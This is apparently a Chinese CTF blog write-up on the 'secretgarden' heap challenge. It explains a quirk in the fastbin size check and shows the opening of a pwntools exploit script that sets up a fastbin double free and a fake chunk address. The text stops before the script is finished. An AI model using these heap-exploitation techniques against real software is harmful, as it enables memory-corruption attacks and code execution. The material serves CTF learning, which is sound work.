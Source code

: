 ![image-20220918100953602](/assets/img/2022/image-20220918100953602.png)

实际上是一个unsigned int，也就是说在x64上（假设此时idx为0x20），我们的size的高位不是全要为零，而是`0x????????00000020 + [0,7]`，高4字节是可以任意的。比如0xffffffff00000023就是可以的。

> 
>
> ![image-20220918100916026](/assets/img/2022/image-20220918100916026.png)
>
> 给pwndbg修了一下，可以正常显示了
>
> ![image-20220918100842141](/assets/img/2022/image-20220918100842141.png)

exp: 针对这题 拿个flag就比较简便

```python
from pwn import *


r = process('./secretgarden')
elf = ELF('./secretgarden')


context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
def debug(cmd=''):
    gdb.attach(r, cmd)
    pause()

def raise_flower(length, name, color):
    r.recvuntil("Your choice :")
    r.sendline('1')
    r.recvuntil('Length of the name :')
    r.sendline(str(length))
    r.recvuntil('The name of flower :')
    r.sendline(name)
    r.recvuntil('The color of the flower :')
    r.sendline(color)

def visit():
    r.recvuntil("Your choice :")
    r.sendline('2')

def remove(index):
    r.recvuntil("Your choice :")
    r.sendline('3')
    r.recvuntil('Which flower do you want to remove from the garden:')
    r.sendline(str(index))

def clean():
    r.recvuntil("Your choice :")
    r.sendline('4')

def leave():
    r.recvuntil("Your choice :")
    r.sendline('5')

raise_flower(0x50, 'aaaa', '1') #0
raise_flower(0x50, 'bbbb', '2') #1

remove(0)
remove(1)
remove(0)

fake_chunk_addr = 0x601ffa
```